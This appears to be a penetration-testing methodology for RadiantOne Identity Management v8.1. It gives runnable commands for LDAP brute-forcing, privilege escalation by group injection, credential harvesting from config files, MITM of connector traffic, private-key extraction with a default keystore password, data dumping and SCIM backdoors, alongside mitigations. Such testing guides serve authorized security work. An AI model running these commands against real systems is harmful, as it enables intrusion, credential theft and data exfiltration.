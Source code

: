 # RadiantOne v8.1 Attack Methodology

Below is a comprehensive end-to-end penetration testing methodology for RadiantOne Identity Management v8.1, formatted as a Markdown file for easy reference and download.

---

## 1. Reconnaissance & Service Enumeration

### 1.1 Port/Service Discovery
Identify RadiantOne-related ports:
```bash
nmap -sS -p2389,2636,7070,7171,8089,8090 -sV -oA scans/radiantone_base 10.0.0.5
```
- **2389** LDAP  
- **2636** LDAPS  
- **7070/7171** Admin UI (HTTP/HTTPS)  
- **8089/8090** SCIM/REST API (HTTP/HTTPS)

### 1.2 LDAP Version & RootDSE Fingerprint
```bash
ldapsearch -x -H ldap://10.0.0.5:2389 -s base -b "" vendorVersion supportedLDAPVersion
```
- Confirms RadiantOne version (e.g., `8.1.2`).  
- Enumerate `namingContexts` to discover base DN.

### 1.3 Cluster Components
If you find port **2181**, that’s ZooKeeper (cluster coordination):
```bash
nmap -sV -p2181 10.0.0.5
echo ruok | nc 10.0.0.5 2181  # returns 'imok' if unauthenticated access is allowed
```

---

## 2. LDAP / FID Exploitation

### 2.1 Anonymous Bind Test
```bash
ldapsearch -x -H ldap://10.0.0.5:2389 -b "dc=example,dc=com" "(objectClass=*)" cn
```
- If entries are returned, anonymous read is enabled (default).  
- **Mitigation**: enable “Bind Requires Password” in Admin UI.

### 2.2 Default-Admin Credential Brute-Force
```bash
hydra -L users.txt -P passwords.txt ldap://10.0.0.5 -s 2389       -V -t 4
```
Targets `cn=Directory Manager` or other known DNs.

### 2.3 Read ACL / ACI Enumeration
```bash
ldapsearch -x -H ldap://10.0.0.5:2389 -b "cn=ACIs,cn=config" "(objectClass=aciEntry)" aci
```
Look for overly broad ACIs like `globalRead`.

### 2.4 Privilege Escalation via Group-Injection
```bash
ldapmodify -H ldap://10.0.0.5:2389 -D "cn=Directory Manager,cn=config" -W <<EOF
dn: cn=Administrators,ou=Groups,dc=example,dc=com
changetype: modify
add: member
member: uid=lowpriv,ou=Users,dc=example,dc=com
EOF
```
If allowed, adds low-priv user to admin group.

---

## 3. Connector & Synchronization Abuse

### 3.1 Extract Connector Credentials
In Admin UI: **Data Sources → Edit Connector → Show Password**  
Or via server:
```bash
grep -R "bindPassword" /opt/radiantone/config/
```

### 3.2 Direct Backend Bind
```bash
ldapsearch -H ldap://ad.domain.local:389 -D "CN=svc_rad_one,OU=Service Accounts,DC=domain,DC=local" -w 'SecretPass!' -b "dc=domain,dc=local" "(objectClass=*)"
```
Enumerate or modify backend AD/LDAP.

### 3.3 MITM Connector Traffic
```bash
echo 1 | sudo tee /proc/sys/net/ipv4/ip_forward
sudo iptables -t nat -A PREROUTING -p tcp --dport 389 -j REDIRECT --to-port 1389
mitmproxy --mode upstream:http://ad.domain.local:389 -p 1389
```
Capture cleartext credentials if StartTLS is not enforced.

---

## 4. Web Interface & API Testing

### 4.1 Admin UI Login Bruteforce (Burp Intruder)
1. Proxy the login POST `https://10.0.0.5:7171/login`.  
2. Send to Intruder; configure username/password positions.  
3. Load wordlists; launch attack.

### 4.2 Active Scan & Manual Testing
- Use Burp’s Active Scan on all Control-Panel endpoints.  
- Test for XSS in user-editable fields.  
- Probe for IDOR: access `/user/edit?uid=admin` as low-priv user.

### 4.3 SCIM / REST API Enumeration
```bash
curl -k -u "cn=Directory Manager,cn=config:AdminPass!" https://10.0.0.5:8089/scim/v2/Users
```
Verify data access and attempt CRUD operations.

---

## 5. Configuration & Hardening Review

### 5.1 Keystore & TLS Checks
```bash
keytool -list -keystore /opt/radiantone/config/radiantone.jks -storepass changeit
openssl pkcs12 -in radiantone.jks -nocerts -nodes -passin pass:changeit > private_key.pem
```
Default `changeit` enables extraction of private keys.

### 5.2 Password Policy & Hashing
Review **Security → Password Policies** in Admin UI.  
Identify weak hashing (e.g., Digest-MD5).

### 5.3 Audit Logging
Simulate failed binds; verify entries in `/opt/radiantone/logs/`.

---

## 6. Post-Exploitation & Reporting

1. **Data Exfiltration**: `ldapsearch … > full_dump.ldif`  
2. **Persistence**: Create backdoor via SCIM API.  
3. **Clean-up**: Revert test changes (users, ACIs).  
4. **Report**:
   - **Findings**: anonymous bind, default keystore password, etc.
   - **Risk**: privilege escalation, data theft.
   - **Recommendations**:
     - Disable anonymous LDAP.
     - Enforce TLS on connectors.
     - Rotate default keystore passwords.
     - Harden password policy; enable account lockout.
     - Tighten ACIs and remove global read.

---

*Generated with Kali Linux tools & Burp Suite Pro commands.*  
